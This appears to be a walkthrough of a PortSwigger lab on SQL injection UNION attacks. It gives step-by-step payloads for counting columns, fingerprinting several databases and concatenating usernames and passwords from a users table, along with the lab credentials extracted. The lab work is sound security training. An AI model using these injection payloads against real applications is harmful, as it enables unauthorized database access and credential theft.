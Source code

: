 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a `UNION` attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

![lab-sql-retrieve-data-into-one-column.png](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/lab-sql-retrieve-data-into-one-column.png)

# Verify Attack Vulnerability

```sql
'--
```

![screenshot00](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/screenshot00.png)

# Identify Number Of Columns

```sql
'UNION SELECT NULL--
'UNION SELECT NULL,NULL--
'UNION SELECT NULL,NULL,NULL--
```

![screenshot01](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/screenshot01.png)

<aside>
💡 There are two columns

</aside>

# Identify Data Types

```sql
'UNION SELECT '',NULL--
'UNION SELECT NULL,''--
```

![screenshot02](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/screenshot02.png)

<aside>
💡 Second column is a String data type.

</aside>

# Identify Database and Version

## Base Query Payload

```sql
'UNION SELECT NULL, ''--
```

## Oracle

```sql
'UNION SELECT NULL, banner FROM v$version--
'UNION SELECT NULL, version FROM v$instance--
```

![screenshot03](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/screenshot03.png)

![screenshot04](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/screenshot04.png)

## Microsoft

```sql
'UNION SELECT NULL, '' FROM @@version-- 
```

![screenshot05](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/screenshot05.png)

## **PostgreSQL**

```sql
'UNION SELECT NULL, version()--
```

![screenshot06](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/screenshot06.png)

## **MySQL**

```sql
'UNION SELECT NULL, @@version-- 
```

![screenshot07](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/screenshot07.png)

<aside>
💡 The database is PostgreSQL

</aside>

# Create Concatenation Payload

```sql
'UNION SELECT NULL, username || '~' || password FROM users-- 
```

![screenshot08](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/screenshot08.png)

```
carlos~okrj48adw7hxvi7i42ul
wiener~vgiwj0h2cxgu7asmxg5q
administrator~jmw750il87sw0f1la0gt
```

## Login as administrator

![screenshot09](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/screenshot09.png)

![lab-solved-sql-retrieve-data-into-one-column.png](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column/lab-solved-sql-retrieve-data-into-one-column.png)

# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+NULL,'abc'--`
3. Use the following payload to retrieve the contents of the `users` table: `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
4. Verify that the application's response contains usernames and passwords.

## Community Solutions

Rana Khalil

[SQL Injection - Lab #6 SQL injection UNION attack, retrieving multiple values in a single column](https://youtu.be/yRVYoqR9vrI)

Michael Sommer
